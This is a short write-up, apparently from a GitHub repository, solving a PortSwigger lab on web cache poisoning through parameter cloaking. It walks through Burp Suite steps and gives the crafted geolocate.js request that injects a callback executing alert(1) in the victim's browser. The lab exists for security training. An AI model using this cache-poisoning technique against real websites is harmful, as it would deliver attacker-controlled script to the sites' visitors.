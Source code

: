 # Parameter cloaking

## This lab is vulnerable to [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning) because it excludes a certain parameter from the cache key. There is also inconsistent parameter parsing between the cache and the back-end. A user regularly visits this site's home page using Chrome.

## To solve the lab, use the parameter cloaking technique to poison the cache with a response that executes `alert(1)` in the victim's browser.

### step1

send geolocate.js to repeter

![screenshot](./images/lab7_geolocate_js_file_to_repeter.png)

### step2

send param minier to rails param miner cloaking scan

![screenshot](./images/lab7_rails_param_cloaking_scan.png)

### step3

add _&utm_content=x;callback=akzldka&ipy1trc2=1_
final url _GET /js/geolocate.js?callback=setCountryCookie&utm_content=x;callback=akzldka&ipy1trc2=1_

![screenshot](./images/lab7_utm_callaback_request.png)

### step4

payload:alert(1)
_GET /js/geolocate.js?callback=setCountryCookie&utm_content=x;callback=alert(1)_
send request many times to solve the lab

![screenshot](./images/lab7_callback_payload.png)
